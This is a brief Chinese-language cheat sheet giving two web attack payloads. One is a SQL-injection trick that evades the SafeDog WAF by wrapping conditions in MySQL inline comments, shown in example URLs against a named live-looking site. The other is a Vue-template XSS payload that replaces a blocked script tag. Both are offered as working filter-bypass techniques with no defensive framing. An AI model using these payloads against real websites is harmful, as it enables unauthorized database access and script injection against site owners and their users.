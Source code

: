1、sql注入绕过安全狗waf：  
and 1=1  
变为  
and /*!1=1*/  
实例如下  
http://www.smallview.cn/solution_cid_2'and 1=1.html  
http://www.smallview.cn/solution_cid_2'and /*!1=1*/.html

2、twitter上最新xss payload：  
<script>alert("ybdt")</script>  
变为  
<x v-html=_c.constructor('alert(1)')()>

